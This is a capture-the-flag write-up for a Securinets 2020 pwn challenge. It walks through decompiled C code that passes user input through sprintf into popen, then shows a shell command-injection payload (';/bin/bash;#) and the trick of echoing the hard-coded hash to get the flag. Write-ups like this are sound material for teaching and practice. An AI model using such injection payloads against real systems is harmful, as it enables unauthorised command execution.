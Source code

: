 ```yaml
---
layout: page
title: UNCRACKABLE
category: PWN
type: ctf_securinetspreq2020
desc: Binary Pwn 666 pts.
img-link: /writeups/ctf/securinetspreq2020/images/uncrackable_1.png
---
```


# [PWN] UNCRACKABLE - 666 pts.

We're given this file:
![file missing](images/uncrackable_1.png# medium)
<br />

Let's analyze this with Ghidra. Here is the decompiled main:
```c
void main(void)

{
  int iVar1;
  char local_459;
  char local_458 [1040];
  undefined local_48 [47];
  char local_19;
  char *local_18;
  FILE *local_10;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __isoc99_scanf(&DAT_00102008,local_48);
  sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
  local_10 = popen(&local_459,"r");
  if (local_10 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_458,0x21,local_10);
  local_18 = "3b9aafa12aceeccd29a154766194a964";
  iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
  local_19 = (char)iVar1;
  if (local_19 == '\0') {
    system("cat flag");
  }
  else {
    puts("not good enough");
  }
  return;
}
```
Our task here to _cat_ the flag is to give an input string that when we get its md5 it should be equal to "3b9aafa12aceeccd29a154766194a964". Thinking to the perspective of this challenge, cracking the hash is out of the question. So how can we exploit this?
<br />
## The vulnerability
Our input is directly inserted to the sprintf without proper sanitation. We can inject bash code in there.
<br />
(Note: Since the challenge server is not up at the time this is written, we will use our own machine as the challenge server.)
<br />

Let's run the challenge locally and create a test flag:
![file missing](images/uncrackable_2.png# big)
<br />

## Exploitation
This is the original string:
```
"echo -n \'%s\'|md5sum"
```
This is our exploit string:
```
';/bin/bash;#
```
And this is going to be the final string:
```
"echo -n \'\';/bin/bash;#|md5sum;
```
\# - this is to comment out md5sum
<br />

It worked! The challenge server tried to execute "aaaaaaaaaa" but there is no such command exist. However when a legitimate command is used, "not good enough" is printed instead of supposed output of the respective command. 
![file missing](images/uncrackable_3.png)
<br />

This is because the output from STDOUT is being passed to the variable ```local_458``` instead of printing it. After that, the output is compared to the hard coded hash that's why "not good enough" is printed.
```c
...
 sprintf(&local_459,"echo -n \'%s\'|md5sum",local_48);
  local_10 = popen(&local_459,"r");
  if (local_10 == (FILE *)0x0) {
    puts("Failed to run command");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  fgets(local_458,0x21,local_10);
  local_18 = "3b9aafa12aceeccd29a154766194a964";
  iVar1 = memcmp(local_458,"3b9aafa12aceeccd29a154766194a964",0x20);
...
```
<br />
However, if we print the hash itself using the ```echo``` command, it should work.
![file missing](images/uncrackable_4.png)
<br />

All we have to do is to connect to the original challenge server and redo what we have done and we should be able to get the flag.
<br />
Flag: _securinets{memcmp_turned_out_to_be_shame_shame_shame!!}_ 
<br />
Thank you for reading!


